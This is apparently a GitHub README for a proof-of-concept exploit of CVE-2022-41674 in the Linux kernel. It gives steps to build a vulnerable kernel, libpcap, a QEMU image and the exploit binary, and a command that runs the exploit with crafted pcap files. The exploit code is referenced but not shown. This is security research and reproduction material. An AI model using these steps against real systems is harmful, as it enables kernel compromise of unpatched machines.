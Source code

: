 Extension of [beacown](https://github.com/PurpleVsGreen/beacown) research.

Complete proof-of-concept [exploit](./xpl.c) for CVE-2022-41674 targeting the Linux kernel `v5.12-rc4` and `v5.14`.

To run the exploit against a target system, you will need to build:
1. Linux kernel.
2. Exploit binary.
3. QEMU disk image.

The instructions below have been tested on a WSL2 Ubuntu 20.04 host system.

#### Building a target Linux kernel

Install system dependencies on a host system that will compile the kernel:
```sh
# apt install libelf-dev libssl-dev -y
```

Clone and build the linux kernel with target configuration:
```
$ git clone --branch v5.12-rc4 git://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git
$ cp .config linux
$ cd linux
$ make -j `nproc`
```

#### Building the exploit binary

Install system dependencies for compiling `xpl.c`.

```sh
# apt install libnl-3-200
# apt install libnl-genl-3-dev
```

`xpl.c` relies on libpcap version `1.10.1+` so we will need to compile libpcap from source.

```sh
$ git clone https://github.com/the-tcpdump-group/libpcap.git
$ git checkout libpcap-1.10.1
$ ./configure
$ make
$ make install
```

Copy the libpcap library to the system library load path:
```sh
# cp ./libpcap.so.1.10.1 /usr/lib/x86_64-linux-gnu/ && ln -s /usr/lib/x86_64-linux-gnu/libpcap.so.1.10.1 /usr/lib/x86_64-linux-gnu/libpcap.so.1
```

Compile the `xpl` binary file:
```sh
$ gcc -o xpl xpl.c $(pkg-config --cflags --libs libnl-3.0 libnl-genl-3.0 libpcap)
```

#### Building the QEMU disk image

A modified version of the syzkaller [./create-image.sh](https://github.com/google/syzkaller/blob/master/tools/create-image.sh) script is used to prepare the target system and copy the `xpl` binary and associated `poc.pcap` files.

Simply run `./create-image.sh` as sudo and a `stretch.img` output file will be produced that is used by the `./run.sh` script.

#### Running the target system

The target kernel and system can be run using the `./run.sh` script. 

Ensure the path to the compiled kernel `bzImage` file is correct for your local host system.

You'll need to build the kernel with `CONFIG_MAC80211_HWSIM` enabled

#### Running the exploit

`CAP_NET_ADMIN` is required. We artificially introduce this permission in `./create-image.sh` by setting `/sbin/iw` as root SUID and `/xpl` with `setcap`.

```sh
$ /sbin/iw wlan0 scan trigger && /xpl /poc.pcap /poc2.pcap
```

----

<img width="544" alt="image" src="https://user-images.githubusercontent.com/39016242/226211272-f1de7303-b0dd-4669-9aae-e2b0d06847bb.png">
